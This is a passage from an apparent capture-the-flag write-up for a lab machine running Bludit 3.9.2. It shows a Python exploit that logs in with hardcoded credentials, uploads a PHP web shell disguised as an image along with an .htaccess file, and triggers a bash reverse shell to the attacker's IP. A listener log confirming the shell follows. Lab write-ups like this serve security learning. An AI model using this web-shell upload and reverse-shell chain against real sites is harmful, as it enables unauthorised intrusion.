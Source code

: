 
    callback_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
    username = 'fergus'
    password = 'RolandDeschain'
    url = 'http://10.10.10.191'


    s = requests.session()

    # Login
    resp = s.get(f'{url}/admin/')
    csrf = re.findall('name="tokenCSRF" value="([0-9a-f]{32,})"', resp.text)[0]
    s.post(f'{url}/admin/', allow_redirects=False,
            data = {'tokenCSRF': csrf, 'username': username, 'password': password, 'remember': 'true', 'save': ''})

    # Get CSRF to upload images
    resp = s.get(f'{url}/admin/new-content/index.php')
    csrf = re.findall('\nvar tokenCSRF = "([0-9a-f]{32,})";', resp.text)[0]

    # Upload webshell
    form_data = {'images[]': ('0xdf.php', '<?php system($_REQUEST["cmd"]); ?>', 'image/png')}
    data = {'uuid': 'junk',
            'tokenCSRF': csrf}
    s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)

    # Upload .htaccess file
    form_data = {'images[]': ('.htaccess', 'RewriteEngine off', 'image/png')}
    s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)

    # Trigger Shell
    resp = s.get(f'{url}/bl-content/tmp/0xdf.php', params={'cmd':f'bash -c "bash -i >& /dev/tcp/{callback_ip}/443 0>&1"'})



### Shell

I can run that and get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.191.
    Ncat: Connection from 10.10.10.191:47374.
    bash: cannot set terminal process group (1108): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
